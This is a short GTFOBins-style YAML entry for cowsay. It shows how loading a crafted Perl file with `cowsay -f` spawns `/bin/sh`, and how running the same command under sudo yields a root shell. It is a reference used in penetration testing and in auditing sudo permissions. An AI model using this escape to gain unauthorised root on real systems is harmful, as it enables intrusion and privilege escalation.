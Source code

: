 ```yaml
---
description: It allows to execute [`perl`](/gtfobins/perl) code, other functions may apply.
functions:
  shell:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        cowsay -f $TF x
  sudo:
    - code: |
        TF=$(mktemp)
        echo 'exec "/bin/sh";' >$TF
        sudo cowsay -f $TF x
---
```

